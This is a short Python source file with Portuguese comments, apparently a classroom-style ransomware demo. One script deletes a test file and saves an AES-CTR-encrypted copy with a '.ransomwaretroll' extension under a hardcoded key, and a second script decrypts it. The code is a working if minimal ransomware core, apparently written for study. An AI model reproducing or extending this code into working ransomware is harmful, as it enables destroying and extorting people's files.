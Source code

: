 import os
import pyaes

# Abrir o arquivo a ser criptografado
file_name = "exemplos/teste.txt"
with open(file_name, "rb") as file:
    file_data = file.read()

# Remover o arquivo original
os.remove(file_name)

# Chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

# Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
with open(new_file, 'wb') as f:
    f.write(crypto_data)

import os
import pyaes

# Abrir o arquivo criptografado
file_name = "exemplos/teste.txt.ransomwaretroll"
with open(file_name, "rb") as file:
    file_data = file.read()

# Chave de descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Descriptografar o arquivo
decrypt_data = aes.decrypt(file_data)

# Remover o arquivo criptografado
os.remove(file_name)

# Criar o arquivo descriptografado
new_file = "exemplos/teste.txt"
with open(new_file, "wb") as f:
    f.write(decrypt_data)

